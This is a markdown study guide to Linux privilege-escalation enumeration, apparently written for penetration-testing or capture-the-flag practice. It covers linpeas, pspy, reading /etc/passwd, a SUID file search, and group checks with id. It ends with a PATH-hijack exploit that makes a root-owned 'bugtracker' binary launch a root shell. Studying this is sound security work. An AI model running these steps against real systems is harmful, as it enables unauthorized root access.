 escalation ideas ->
https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics

files -> https://gtfobins.github.io

## linpeas.sh
It is a script designed to assist in privilege escalation enumeration on Linux systems.
Linpeas is written in Bash scripting language and is designed to be executed directly on the target Linux system. It automates the process of gathering information and performing various checks to identify potential privilege escalation vectors.
```bash
./linpeas.sh
```

## pspy
**pspy** is based on the analysis of the `/proc` directory, which contains information about the running processes in the Linux operating system. It utilizes the virtual file system `/proc` to obtain real-time information about processes, such as the process ID, process name, user executing the process, files opened by the process, and other relevant details.
```bash
./pspy
```
## /etc/passwd
This is a file that we can find in all the Linux machines. Once we have gained access to a machine and we want to escalate our privileges we can take a look to this file to see what users are registered in the machine. The fields that we can find for each row are: 
 - Username
 - Password
 - User ID
 - Primary Group ID 
 - User Information
 - Home Directory
 - Shell
```bash
cat /etc/passwd

#Example of a row:
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

## /etc/hosts
This file can be a valuable resource for mapping domain names to IP addresses within a target system.
For example, we could find a new subdomain.
```bash
ls /etc/hosts
```

## /proc/version
The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.
This can be useful if you want to find a possible CVE.

## /etc/crontab
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

## id
Something we can do to gain privileges is to observe the groups our current user belongs to, to see if there's any uncommon one and take advantage of it to exploit a vulnerability.
```bash
#command:
id                                     
#possible putput:
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
If we observe the output, we can see that Robert is in the bugtracker group, what it's not common.

## locate
It is a command that locates if there is any file with this name. This can be useful, for example, if we want to locate a user or a group.
```bash
#command:
locate bugtracker
#possible output:
/usr/bin/bugtracker
```

## find
This command is used to search for files and directories within a specified directory hierarchy. It searches recursively through the directory structure, starting from the given directory, and matches files and directories based on specified criteria.

- Parameters:
	 - `-name <pattern>`: Matches files and directories with the specified name pattern.
	- `-type <type>`: Matches files or directories of the specified type, such as `f` for regular files or `d` for directories.
	- `-size <size>`: Matches files based on size, such as `+10M` for files larger than 10 megabytes or `-100K` for files smaller than 100 kilobytes.
	- `-user <username>`: Matches files owned by the specified username.

```bash
find [path] [expression]
```

**find** can be useful to discover all the files that can be executed with root privileges.
```bash
find / -perm -4000 2>/dev/null
```
## Files privilege
When gaining privileges, paying attention to the permissions assigned to each file can provide a significant advantage. For instance, if a file has execution permissions and it belongs to the root user, but you can execute it as a regular user, this can be a potential vulnerability.

If, for example, this file (bugtruck) is affected by the vulnerability described, and this executable allows us to input commands in some way, we could make it perform the following:
```bash
echo "/bin/sh" > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
bugtracker /tmp/cat
```
Bugtracker executes files with root privileges depending on the path you specify. With the commands we've made, we make it execute the command responsible for creating a new shell, doing so with root privileges.